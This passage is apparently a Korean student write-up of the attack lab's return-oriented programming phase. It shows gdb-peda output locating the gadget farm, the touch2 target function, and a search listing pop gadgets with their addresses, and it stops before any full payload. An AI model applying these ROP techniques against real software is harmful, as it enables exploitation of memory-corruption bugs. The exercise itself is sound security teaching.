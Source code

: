 



# Part II: Return-Oriented Programming

## Check Range of `farm`
```r
gdb-peda$ p start_farm
$3 = {<text variable, no debug info>} 0x401a4d <start_farm>
gdb-peda$ p mid_farm
$4 = {<text variable, no debug info>} 0x401a89 <mid_farm>
gdb-peda$ p end_farm
$5 = {<text variable, no debug info>} 0x401b6c <end_farm>
```
 ` ctarget`과 달리 `rtarget`에서는 스택의 주소가 정해져 있지 않고, 실행권한이 없기 때문에 우리는 rop를 이용하여 문제를 해결해야하고, 이때 `farm`에 있는 코드들을 rop의 가젯으로 활용할 수 있기 때문에, `farm`의 범위를 확인해주었다. 앞으로 이 범위 안의 함수들을 활용하여 rop 가젯을 찾아서 이용할 것이다.



## Level 2

### 분석

#### Objective

```c
void touch2(unsigned val)
{
	vlevel = 2;
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

`rtarget`의 `level2`는 `ctarget`의 `level2`를 rop를 이용하여 해결하는 것이다. 즉, 우리는 인자 `val`에 쿠키를 넣어서 `touch2`를 실행해야 한다.



#### Collect Gadgets

##### Find Gadget to Write to `rdi`

###### Check `pop` Gadget Exist

```r
gdb-peda$ ropsearch "pop ?" 0x401a53 0x401b6c
Searching for ROP gadget: 'pop ?' in range: 0x401a53 - 0x401b6c
0x00401ad3 : (b'5889e0c3')	pop %rax; mov %esp,%eax; retq
0x00401a84 : (b'58909090c3')	pop %rax; nop; nop; nop; retq
0x00401a55 : (b'58909090c3')	pop %rax; nop; nop; nop; retq
0x00401a7e : (b'5b2e1890c3b858909090c3')	pop %rbx; sbb %dl,%cs:-0x6fa7473d(%rax); nop; nop; retq
```
